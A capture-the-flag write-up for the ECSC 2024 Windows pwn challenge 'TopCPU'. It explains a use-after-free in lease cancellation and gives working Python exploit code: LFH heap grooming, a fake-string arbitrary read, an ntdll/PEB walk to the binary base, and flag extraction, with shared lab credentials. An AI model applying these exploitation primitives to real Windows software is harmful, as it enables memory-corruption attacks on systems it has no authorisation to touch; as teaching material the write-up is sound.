# ECSC 2024 - Jeopardy

## [pwn] TopCPU (0 solves)

You have loads of spare CPUs and want to build up some money? Try this out, you won't regret it.

_The timeout on the remote is 60 seconds._

You will have access to a development machine with an identical setup to the target machine, with the following differences:

1. The development machine has Python, WinDbg and Visual Studio installed for building, testing, debugging, exploiting, etc. Pwntools is also installed for your convenience.
2. The flag on the development machine is a placeholder dummy flag.
3. The development machine is accessible via RDP and SMB, while the target machine is not.

Both machines have no internet access but can connect to your local machine. The development machine can access the challenge port on the target machine.

On the development machine, challenge handouts are available in the `C:\challenge` directory. WinDbg is already configured with debugging symbols necessary for debugging the challenge.

#### Target

- **Site**: [http://topcpu.challs.jeopardy.ecsc2024.it](http://topcpu.challs.jeopardy.ecsc2024.it)
- **Access**: Challenge at TCP port 1107

#### Development

- **Site**: [http://dev.topcpu.challs.jeopardy.ecsc2024.it](http://dev.topcpu.challs.jeopardy.ecsc2024.it)
- **Administrator login**: `Admin` / `Passw0rd!`
- **Access**: RDP (port 3389), SMB (port 445), challenge at TCP port 1107

> Note: we periodically run health-check scripts on the target machine, but _not_ on the development one. As such, it is guaranteed that the target machine is exploitable, while the development machine may not be depending on the state it is in and your exploitation path. You are free to restart services, or even reboot it when you need. You may request a reboot of the target machine, if you believe the target machine's current state is not exploitable with your solution. Rate limits for rebooting may be applied to teams repeatedly requesting reboots.

Author: Giulia Martino <@Giulia>

## Overview

This is a Windows binary exploitation challenge. The binary is a simple cluster management service that allows users to lease CPUs for a certain amount of time. The binary has a UAF vulnerability with a twist - LFH is forced, making exploitation more difficult. Participants are provided with source code, compiled binary, symbol file, and a Windows development machine (via RDP) with WinDbg, Visual Studio, and Pwntools installed.

First, the binary asks the user how many CPUs it has available, and how many cores each and their price per second. Then, the user can lease their CPUs for a certain amount of time. The binary keeps track of the leases and the total price of the leases. The user can also cancel leases.

If a lease requires more cores than the available ones on a single CPU, then the lease is split across multiple CPUs. Here's a basic flow of creating a cluster with 2 CPUs, each with 2 cores. The flow shows creating and cancelling a lease, as well as creating a lease that exceeds the number of cores on a single CPU:

<p align="middle" float="left">
  
</p>

The flag is read into memory at challenge startup, and saved into a global variable; the goal is to read it.

### Data structures

The challenge uses C++ classes to store all the information about leases and CPUs.

```cpp
class Lease : public PrivateClass<Lease>
{
 static UINT leaseId;

public:
 UINT id;
 PrivateString clientId;
 UINT timestamp;
 UINT duration;
 UINT cores;

  // ...Methods
};

UINT Lease::leaseId = 0;

class CPU : public PrivateClass<CPU>
{
 static UINT cpuId;

public:
 UINT id;
 UINT cores;
 FLOAT pricePerSecond;
 PrivateVector<Lease*> leases;

  // ...Methods
};

UINT CPU::cpuId = 0;

class Cluster : public PrivateClass<Cluster>
{
public:
 PrivateVector<CPU*> cpus;

  // ...Methods
};
```

It is also worth talking about C++ strings and having a look at how they're stored in memory, as they are used to store the leases' `clientId` field and they will be actively used for exploitation. There is currently different implementations for C++ strings; this writeup is only focusing on the `msvc` one. More information about the other ones can be found at [this](https://devblogs.microsoft.com/oldnewthing/20240510-00/?p=109742) link.

The description below is a simplification of the real string implementation, useful for exploitation purposes.

```cpp
// Pseudo code
// msvc
struct string
{
    union {
        char* ptr;
        char buf[16];
    };
    size_t size;
    size_t capacity;

    bool is_large() { return capacity > 15; }
    auto data() { return is_large() ? ptr : buf; }
    auto size() { return size; }
    auto capacity() { return capacity; }
};
```

A string always has a size and a capacity:

- The size is the current number of characters the string contains.
- The capacity is the maximum number of characters the string can contain in its current state.

Depending on its capacity, a string can be either "small" or "large".

- A string is small when its capacity is <= 15. When this is the case, the string content is stored in the struct itself, using a `buf` field.
- A string is large when its capacity is > 15. When this is the case, the string content is stored in an allocated memory area, and a pointer to this memory is stored into a `ptr` field.

Therefore, depending on the string's capacity, reading the string content could mean reading the bytes into the struct itself or following a pointer to a different memory area.

### Private heap

All the relevant classes used by the challenge are allocated using a private heap, including the leases' strings: they are not stored into the program's default heap, where all the other stuff goes, but they are stored into a separate heap, initialized at program start and used only for them. The private heap is used to make exploitation more deterministic as well as preventing unintended objects from making exploitation easier with leaks or overwrites. In this private heap, on free, the memory is filled with random data.

<p align="middle" float="left">
  
</p>

Below are the two functions (`PrivateAlloc` and `PrivateDelete`) used to allocate and free objects from the private heap. Different other classes like `PrivateClass`, `PrivateAllocator`, `PrivateString` and `PrivateVector` are defined to have all the relevant objects allocated on the private heap.

```cpp
PVOID PrivateAlloc(size_t size)
{
 if (!PRIVATE_HEAP)
 {
  PRIVATE_HEAP = HeapCreate(0, 0, 0);
  if (!PRIVATE_HEAP)
   Die("HeapCreate failed");
 }

 PVOID ptr = HeapAlloc(PRIVATE_HEAP, 0, size);
 if (!ptr)
  Die("HeapAlloc failed");

 return ptr;
}

VOID PrivateDelete(PVOID ptr, size_t size)
{
 if (!PRIVATE_HEAP)
 {
  return;
 }

 if (!ptr)
  return;

 if (BCryptGenRandom(nullptr, (PUCHAR)ptr, (ULONG)size, BCRYPT_USE_SYSTEM_PREFERRED_RNG) != 0)
  Die("BCryptGenRandom failed");

 if (!HeapFree(PRIVATE_HEAP, 0, ptr))
  Die("HeapFree failed");
}
```

### Windows heap and LFH

Memory allocation is quite complex in recent Windows versions. The two main allocators are the NT Heap allocator and the Segment heap allocator. The NT Heap is the default one, and it branches into two different allocators itself:

- Backend allocator
- Frontend allocator

<p align="center">
  
</p>

1. When an allocation of a certain size `S` is performed for the first time, it's the backend allocator serving it.
2. After a certain amount of `S`-sized allocations, the frontend allocator and LFH are enabled for that size.
3. The frontend allocator asks the backend allocator for a `userblock`, which is a big chunk, that gets divided into a certain amount of smaller memory blocks, each of them with size equal to `S`.
4. All the following `S`-sized allocations will be served by the frontend allocator, using each one of the chunks of the allocated userblock.
5. If a userblock is filled up and all its chunks are allocated, then the backend allocator will serve a new big chunk to the frontend allocator, which will serve as a new userblock.

Each userblock contains some metadata, including a bitmask describing which of its chunks are free/in use (`BusyBitmap`).

The backend allocator works very similar to the classic `libc` allocator in Linux, while the frontend allocator works differently:

- Chunks are allocated from a userblock in random order. (*)
- When a chunk is freed, both its unused byte and its bit in the busy bitmap are updated.
- If a new chunk of the same size is allocated, the old chunk will NOT necessarily be reclaimed. A random chunk will be selected. (*)

Therefore, the usual userspace heap shaping techniques used in normal heap exploitation in Linux, which usually rely on the heap's determinism, need to be tweaked here to handle the randomness introduced by LFH.

It is highly recommended to read the slides at [this](https://www.slideshare.net/slideshow/windows-10-nt-heap-exploitation-english-version/154467191) link to get a comprehensive overview about how the heap and LFH work on recent versions of Windows. The following sections will take for granted the user read them.

> (*) [https://github.com/saaramar/Deterministic_LFH](https://github.com/saaramar/Deterministic_LFH)

The challenge forces LFH activation on the private heap for chunks with `size = sizeof(Lease)`. This is done by allocating 18 chunks with the same size at challenge start.

```cpp
INT main()
{
  // ...

 cout << "Initializing cluster";
 cluster = new Cluster(cores, pricesPerSecond);
 cout << endl
  << "Cluster initialized successfully!" << endl;

 cout << "Warming it up";
 for (UINT i = 0; i < 18; i++)
 {
  HeapAlloc(PRIVATE_HEAP, 0, sizeof(Lease));        // LFH gets activated due to this!
  cout << ".";
 }
 cout << endl
  << "Your cluster is ready!" << endl;

  // ...
}
```

### Debugging

WinDbg was used to develop and exploit the challenge, and it is already installed in the development machine provided to players. Among its commands, the most useful ones related to the heap are:

- `!heap`: lists all the available heaps.
- `!heap -hl <address>`: shows all details and chunks of a heap, including LFH chunks.

> Spawning the binary directly from WinDbg enables a bunch of debugging options by default, which for example disable LFH. Even though these options are tweakable, I usually find it quicker to just attach to a running process spawned elsewhere, which is anyway also more convenient when running a Python interaction script.

When the user creates its first lease, the first LFH chunk for the lease's size has just been allocated. The log below shows how the heap looks through WinDbg: there are several backend allocator chunks, and LFH has been activated with a userblock and 30 chunks, each one being 0x40 in size. Among them, one is used for the newly allocated lease.

```
0:002> !heap -hl 0000018ca3f20000 
  
    [...]
    Heap entries for Segment00 in Heap 0000018ca3f20000
                 address: psize . size  flags   state (requested size)
        0000018ca3f20000: 00000 . 00740 [101] - busy (73f)
        0000018ca3f20740: 00740 . 00040 [101] - busy (38)
        0000018ca3f20780: 00040 . 000d0 [100]
        0000018ca3f20850: 000d0 . 00020 [101] - busy (18)
        0000018ca3f20870: 00020 . 00030 [101] - busy (28)
        [...] // Many other backend blocks here

        LFH data region at 0000018ca3f23220 (subsegment 0000018ca3f23a50):
            0000018ca3f23260: 00040 - free
            0000018ca3f232a0: 00040 - free
            0000018ca3f232e0: 00040 - free
            0000018ca3f23320: 00040 - free
            0000018ca3f23360: 00040 - free
            0000018ca3f233a0: 00040 - free
            0000018ca3f233e0: 00040 - free
            0000018ca3f23420: 00040 - free
            0000018ca3f23460: 00040 - free
            0000018ca3f234a0: 00040 - free
            0000018ca3f234e0: 00040 - free
            0000018ca3f23520: 00040 - free
            0000018ca3f23560: 00040 - free
            0000018ca3f235a0: 00040 - free
            0000018ca3f235e0: 00040 - free
            0000018ca3f23620: 00040 - free
            0000018ca3f23660: 00040 - free
            0000018ca3f236a0: 00040 - free
            0000018ca3f236e0: 00040 - free
            0000018ca3f23720: 00040 - free
            0000018ca3f23760: 00040 - free
            0000018ca3f237a0: 00040 - free
            0000018ca3f237e0: 00040 - free
            0000018ca3f23820: 00040 - free
            0000018ca3f23860: 00040 - free
            0000018ca3f238a0: 00040 - free
            0000018ca3f238e0: 00040 - free
            0000018ca3f23920: 00040 - free
            0000018ca3f23960: 00040 - free
            0000018ca3f239a0: 00040 - busy (38)  // The just allocated lease

        [...]
```

If the lease gets freed, the busy block in LFH will appear as free again, but the LFH won't be deactivated anymore.

```
0:002> !heap -hl 0000018ca3f20000

    [...]
        LFH data region at 0000018ca3f23220 (subsegment 0000018ca3f23a50):
            0000018ca3f23260: 00040 - free
            0000018ca3f232a0: 00040 - free
            0000018ca3f232e0: 00040 - free
            0000018ca3f23320: 00040 - free
            0000018ca3f23360: 00040 - free
            0000018ca3f233a0: 00040 - free
            0000018ca3f233e0: 00040 - free
            0000018ca3f23420: 00040 - free
            0000018ca3f23460: 00040 - free
            0000018ca3f234a0: 00040 - free
            0000018ca3f234e0: 00040 - free
            0000018ca3f23520: 00040 - free
            0000018ca3f23560: 00040 - free
            0000018ca3f235a0: 00040 - free
            0000018ca3f235e0: 00040 - free
            0000018ca3f23620: 00040 - free
            0000018ca3f23660: 00040 - free
            0000018ca3f236a0: 00040 - free
            0000018ca3f236e0: 00040 - free
            0000018ca3f23720: 00040 - free
            0000018ca3f23760: 00040 - free
            0000018ca3f237a0: 00040 - free
            0000018ca3f237e0: 00040 - free
            0000018ca3f23820: 00040 - free
            0000018ca3f23860: 00040 - free
            0000018ca3f238a0: 00040 - free
            0000018ca3f238e0: 00040 - free
            0000018ca3f23920: 00040 - free
            0000018ca3f23960: 00040 - free
            0000018ca3f239a0: 00040 - free       // The just freed lease

        [...]
```

If there is no CPU that can host the lease request, the request is split among different CPUs, but a single lease object is still created, exactly as it happens in the 1 CPU case. If the multi CPU lease is freed, the lease object is freed and the LFH userblock remains empty, exactly as it happens in the 1 CPU case.

## Solution

### Vulnerability

The bug resides in the functionality that cancels multi CPU leases. When a multi CPU lease is created, a single lease object is allocated, as mentioned above. A reference to this object (i.e. to a heap chunk) is added to each CPU's leases list.

When the multi CPU lease is canceled, the corresponding lease object is freed. The program should then remove the reference to that object from all the CPUs it was added to, but it does not. The reference is deleted only from one of them (more precisely, the first one encountered while iterating over the list of CPUs). This makes the user able to reference a freed lease (Use-After-Free).

```cpp
VOID CancelLease()
{
 UINT id;

 cout << "Lease id: ";
 cin >> id;

 for (auto cpu : cluster->cpus)
 {
  for (auto iterator = cpu->leases.begin(); iterator != cpu->leases.end(); iterator++)
  {
   if ((*iterator)->id == id)      // The first occurence is checked
   {
    delete* iterator;
    cpu->leases.erase(iterator);
    cout << "Lease canceled!" << endl;
    return;                       // And then the function returns!
   }
  }
 }
 cout << "Lease not found!" << endl;
 return;
}
```

Note that, whenever a chunk is freed, its content is filled with random data. Therefore, after deleting a multi CPU lease and causing a UAF, the program crashes if the user tries to directly list leases, because it is trying to access a string with corrupted capacity and pointer.

<p align="middle" float="left">
  
</p>

### Interaction functions

Interaction functions (`create`, `cancel`, `list`) have been implemented to make it easier to write the exploit. They just interact in the most basic way possible. Check them out in the [exploit script](checker/__main__.py).

## Exploitation path

The overall exploit strategy consists of 4 fundamental steps:

1. Getting a heap leak
2. Achieving arbitrary read
3. Leaking the binary base
4. Reading the flag

First of all, let's mention again that any string with a length greater than 15 bytes is allocated on the heap. The `clientId` field of a lease is a string. It is therefore possible to create a lease with a `clientId` that matches the size of a lease object, so that the string is stored in the same LFH userblock as the lease itself.  

<p align="middle" float="left">
  
</p>

### Getting a heap leak

A possible way to get a heap leak consists in using the list feature to print a heap pointer. To do so, we need to shape our heap in a way such that a lease contains a `clientId` string which contains a heap leak, and we print it. But how do we get that?

We can start by filling up the entire LFH userblock and then only free the blocks we are actually going to use, so that we mitigate the randomness given by the frontend allocator.

At first, the leases LFH userblock has 30 empty chunks, so we can just create 30 different leases. We can use either a small or very large string as the `clientId` now, as long as the string size does **not** end up in the same LFH userblock as the leases themselves, just to keep it cleaner.

```python
LFH_SIZE = 30
for _ in range(LFH_SIZE):
    create(b"A" * 2)
```

<p align="middle" float="left">
  
</p>

Then we can free 2 among those leases, to make sure there are exactly only two spaces left in our LFH userblock.

```python
cancel(0)
cancel(1)
```

> Note: It is also possible to allocate just 28 leases, instead of 30 and then free 2 leases. This is done just for demonstration purposes.

Now, our LFH userblocks looks pretty much like the drawing below. Note that the two free chunks can be placed in whatever slot, this is just an example.

<p align="middle" float="left">
  
</p>

<p align="middle" float="left">
  
</p>

We can then create two multi CPU leases. Each one of them will occupy one of the two free LFH chunks. If we now cancel them, we have UAF over the (only) two free chunks left in the LFH.

```python
uaf_id_1 = create(b"B" * 0x2, 4)
uaf_id_2 = create(b"B" * 0x2, 4)
cancel(uaf_id_1)
cancel(uaf_id_2)
```

<p align="middle" float="left">
  
</p>

<p align="middle" float="left">
  
</p>

Now, let's create a lease whose `clientId` string is a fake lease. The fake lease will take up the size of a lease. Therefore, the legitimate lease and the fake lease will both end up in our LFH userblock and will take up the two free chunks in the LFH -> the UAF slots.

```python
RECLAIM_ID = 0x1337
string = p64(RECLAIM_ID)
string += b"C" * 16
string += p64(0x8)
string += p64(0xf)    # Small fake inlined string because capacity <= 15
id = create(string)
```

After this snippet is run, there are no free slots anymore in the LFH userblocks; one of the two free ones has been used for the legitimate lease, the other one for the fake lease.

<p align="middle" float="left">
  
</p>

<p align="middle" float="left">
  
</p>

<p align="middle" float="left">
  
</p>

Let's remember that we had created UAF on both the slots before: this means that the CPU lists contain a reference to both these two heap chunks. Therefore, we can access both the real and fake lease by just using their real/fake lease id. The id for the fake one is the one defined as `RECLAIM_ID` in the previous code snippet.

Let's free the fake lease then.

```python
cancel(RECLAIM_ID)
```

By performing this operation, we are freeing the fake lease chunk, which is, in reality, just the `clientId` chunk for the real lease. This means we are now in a setup where the real lease has a `clientId` pointing to a freed chunk.

<p align="middle" float="left">
  
</p>

If we now create another lease, with a `clientId` string bigger than the size of a lease, then:

1. The big string will be allocated somewhere on the heap, out of our LFH userblock.
2. The new lease will take the only LFH free slot, and will contain a pointer to the aforementioned string chunk.

This brings us in a situation where we have a lease, whose `clientId` is pointing to another lease, whose `clientId` is pointing to a string on the heap.

```python
create(b"D" * 0x100)  # Allocate a lease with a big string so that it contains a pointer
```

<p align="middle" float="left">
  
</p>

<p align="middle" float="left">
  
</p>

This means we can now leak a heap address by just listing all the leases, and parse the `clientId` from the output, filtering the real lease (`id = X` in the drawing), then calculate heap base accordingly.

```python
heap_leak = u64(list().split(f"Lease {id} | client id ".encode())[1][8:16])
print(f"[+] heap leak: {hex(heap_leak)}")

heap_base = heap_leak & 0xffffffffffff0000
print(f"[+] heap base: {hex(heap_base)}")
```

<p align="middle" float="left">
  
</p>

### Achieving arbitrary read

Now that we have the heap base, we need to get an arbitrary read primitive. We can use the exact same strategy, using a double UAF to be sure we always get a UAF reference to each of the two LFH free chunks.

If there are two free slots in the LFH userblock, and we have a UAF on both of them, then we can set up the same scenario as before, where the `clientId` of a real lease is a fake lease, which contains a fake long string structure, whose string pointer is pointing anywhere we want to read from.

<p align="middle" float="left">
  
</p>

So we start by creating the UAF again:

```python
cancel(2)
cancel(3)

uaf_id_1 = create(b"B" * 0x2, 4)
uaf_id_2 = create(b"B" * 0x2, 4)
cancel(uaf_id_1)
cancel(uaf_id_2)
```

<p align="middle" float="left">
  
</p>

Now we can create a helper function for performing an arbitrary read. Some important considerations:

- We have UAF on the only two remaining entries in the LFH.
- Whenever we create a legitimate lease whose string is a fake lease, we know that the fake lease will always take up the spot of one of the UAF leases.
- Therefore, listing the leases will always show both the legitimate lease and the fake lease.
- We do not care about which one is which, we can simply parse the output and look for the id of the fake lease (`RECLAIM_ID`).

```python
RECLAIM_ID = 0x1338

def read(where, size=8):
    string = p64(RECLAIM_ID)
    string += p64(where)
    string += p64(0)
    string += p64(size)
    string += p64(0x100)
    id = create(string)
    res = list()
    assert f"Lease {RECLAIM_ID}".encode() in res
    cancel(id)
    return res.split(f"Lease {RECLAIM_ID} | client id ".encode())[1][:size]

def read_64(where):
    return u64(read(where))
```

### Leaking the binary base

With our arbitrary read primitive and the leak of the heap base, we can now leak the binary base.

We can use WinDbg to print the structure of our private heap.

<p align="middle" float="left">
  
</p>

Inside this structure, at offset `0x160` from the heap base, we find the `LockVariable`.

```python
_HEAP_LOCK = heap_base + 0x160

Lock_ptr = read_64(_HEAP_LOCK)
print(f"[+] Lock_ptr: {hex(Lock_ptr)}")
```

<p align="middle" float="left">
  
</p>

If we print its content in WinDbg by using `dqs <address>`, we can find an address which resides in `ntdll.dll`, related to `DebugInfo`.

```python
DebugInfo = read_64(Lock_ptr)
print(f"[+] DebugInfo: {hex(DebugInfo)}")
```

<p align="middle" float="left">
  
</p>

With this knowledge and our arbitrary read primitive, we can obtain the base address of `ntdll.dll`:

```python
ntdll = DebugInfo - (0x7ffd71611f90 - 0x7ffd714a0000)
print(f"[+] ntdll: {hex(ntdll)}")
```

<p align="middle" float="left">
  
</p>

Having now the base address of `ntdll.dll`, we can proceed to leak the base address of the binary itself. `ntdll.dll` contains a symbol called `PebLdr`; its data type is a [_PEB_LDR_DATA](https://learn.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb_ldr_data).

```python
PebLdr = ntdll + (0x7ffd71613140 - 0x7ffd714a0000)
```

<p align="middle" float="left">
  
</p>

At offset `0x10` from `PebLdr`, the `InLoadOrderModuleList` field is stored. It is a doubly linked list containing all loaded modules. It uses the [LIST_ENTRY](https://learn.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb_ldr_data) base data type for the doubly linked list.

The list `InLoadOrderModuleList`, as the name suggests, is a list of all the loaded modules **in load order**. This means the executable itself will be the first element in the list, because it is the first one loaded. Therefore, we do not need to traverse this list, we can just take its first element.

This can also be checked with WinDbg by just printing the name of the first entry in the list.

<p align="middle" float="left">
  
</p>

```python
ModuleList = PebLdr + 0x10

module = read_64(ModuleList)
```

<p align="middle" float="left">
  
</p>

Each entry can also be casted to a [_LDR_DATA_TABLE_ENTRY](https://learn.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb_ldr_data) structure, which contains the base address of the module, as well as the name, and some other information. At offset `0x30`, we can find the DLL/module base.

```python
DllBase = read_64(module + 0x30)
print(f"[+] DllBase: {hex(DllBase)}")

TopCPU = DllBase

print(f"[+] TopCPU.exe base: {hex(TopCPU)}")
```

<p align="middle" float="left">
  
</p>

Finally, we can see and calculate the address of the `Flag` variable.

```python
Flag = TopCPU + (0x7ff782f99d00 - 0x7ff782f50000)
print(f"[+] Flag: {hex(Flag)}")
```

<p align="middle" float="left">
  
</p>

### Reading the flag

We can now read the flag, keeping in mind that we do not know its length in advance. If the string capacity is <= 15, then the string will be stored inline, in the string structure itself. If the capacity is bigger, though, it will be stored on a heap chunk, and we have to follow its pointer to read it:

```python
'''
0x0: ptr / data
0x8: data
0x10: size
0x18: capacity
'''
Flag_size = read_64(Flag + 0x10)
Flag_capacity = read_64(Flag + 0x18)
print(f"[+] Flag size: {hex(Flag_size)}")
print(f"[+] Flag capacity: {hex(Flag_capacity)}")

if Flag_capacity > 0xf:
    Flag_ptr = read_64(Flag)
else:
    Flag_ptr = Flag
print(f"[+] Flag ptr: {hex(Flag_ptr)}")
```

<p align="middle" float="left">
  
</p>

Here's the target machine exploited:

```
[+] Opening connection to topcpu.challs.jeopardy.ecsc2024.it on port 1107: Done
[.] leaking heap
[+] heap leak: 0x182bee75140
[+] heap base: 0x182bee70000
[+] Lock_ptr: 0x182bee702c0
[+] DebugInfo: 0x7ffce8e51f90
[+] ntdll: 0x7ffce8ce0000
[+] DllBase: 0x7ff719430000
[+] TopCPU.exe base: 0x7ff719430000
[+] Flag: 0x7ff719479d00
[+] Flag size: 0x51
[+] Flag capacity: 0x69
[+] Flag ptr: 0x182bec5d4b0
ECSC{Lets_Freaking_Hope_I_g3t_a_b3tter_fl4g_id3a_bef0re_th3_comp3tition_28386991}
[*] Closed connection to topcpu.challs.jeopardy.ecsc2024.it port 1107
```

## Exploit

Check out the full exploit [here](checker/__main__.py)!

## Conclusion

Thank you for following this writeup until the end :) I hope you had fun with the challenge and learned something new or just refreshed some concepts.

Feel free to contact me if you have any questions. I am `@giulia.m` on Discord and `@giulia__martino` on Twitter!
